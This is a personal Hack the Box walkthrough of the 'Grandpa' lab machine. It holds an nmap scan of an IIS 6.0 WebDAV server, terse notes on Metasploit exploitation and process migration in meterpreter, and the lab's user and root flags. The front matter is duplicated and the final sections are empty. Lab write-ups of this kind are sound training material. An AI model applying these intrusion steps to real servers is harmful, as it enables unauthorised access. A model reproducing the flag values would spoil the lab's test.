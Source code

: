 ```yaml
---
title: Grandpa - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Grandpa.png
---
```

---
title: Grandpa - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Grandpa.png
---
---
title: 2024-10-12-Grandpa - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Grandpa.png
---
#msfconsole 
### Reconnaissance
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-07 15:32 EDT
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Sat, 07 Sep 2024 19:35:30 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.97 seconds
```
### Enumeration
- Same IIS as granny 
- msf scstoragepath from url instead of asp upload
- ![Image](/assets/Screenshot 2024-09-07 at 3.44.15 PM.png)
- migration to 32 bit
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 148   1072  cidaemon.exe
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 580   392   svchost.exe
 668   392   svchost.exe
 732   392   svchost.exe
 772   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1072  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1316  392   VGAuthService.exe
 1392  392   vmtoolsd.exe
 1504  392   svchost.exe
 1600  392   svchost.exe
 1768  344   logon.scr
 1804  392   dllhost.exe
 1896  392   alg.exe
 1904  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2404  580   wmiprvse.exe
 2572  3408  rundll32.exe       x86   0                                      C:\WINDOWS\system32undll32.exe
 2768  788   HelpSvc.exe
 3408  1504  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3480  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4028  1072  cidaemon.exe
 4072  1072  cidaemon.exe

meterpreter > migrate 3480
[*] Migrating from 2572 to 3480...
[*] Migration completed successfully.

```
sysinfo![Image](/assets/Screenshot 2024-09-07 at 3.46.28 PM.png)
local exploit suggester
- ![Image](/assets/Screenshot 2024-09-07 at 3.51.10 PM.png)
- param and privesc![Image](/assets/Screenshot 2024-09-07 at 3.53.07 PM.png)

user: bdff5ec67c3cff017f2bedc146a5d869

root: 9359e905a2c35f861f6a57cecf28bb7b

### Exploit
### User
### Flag
